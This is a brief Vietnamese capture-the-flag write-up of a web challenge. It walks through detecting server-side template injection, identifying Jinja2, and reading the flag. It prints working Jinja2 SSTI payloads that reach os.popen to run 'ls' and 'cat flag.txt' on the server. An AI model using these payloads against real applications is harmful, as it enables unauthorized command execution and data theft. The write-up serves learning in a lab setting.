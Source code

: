 [WED](#web)

# Super hero
WED

## Solution:
truy cập vào đường dẫn được cung cấp thì mình nhận được một form như này:

![img](./images/1.png)

mình scan vào input bằng một số payload cơ bản thì nhận thấy rằng có thể tấn công SSTI.

payload: /?user=%7B%7B7*7%7D%7D

![img](./images/2.png)
kết quả hiện thị ra màn hình là 49 nên ta có thể bắt đầu khai thác SSTI.
từ đo sta có thể kết luận là jinja2 hoặc là twig
![img](./images/4.png)

sau khi thử một vài payload SSTI trên payloadallofthing thì mình nhận thấy: 
các payload của jinja2 đều dùng được nên có thể chắc chắn là jinja2.
![img](./images/3.png)
![img](./images/5.png)

tiếp tục tìm kiếm trên một số trang thì mình tìm thấy, cách khai thác này:
![img](./images/6.png)

payload: {{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("ls").read() }}

{{ config.__class__.from_envvar.__globals__.__builtins__.__import__("os").popen("cat flag.txt").read() }}

![img](./images/7.png)

flag: PISCTF{s0_3zsy_SSTI_F0R_K1d}



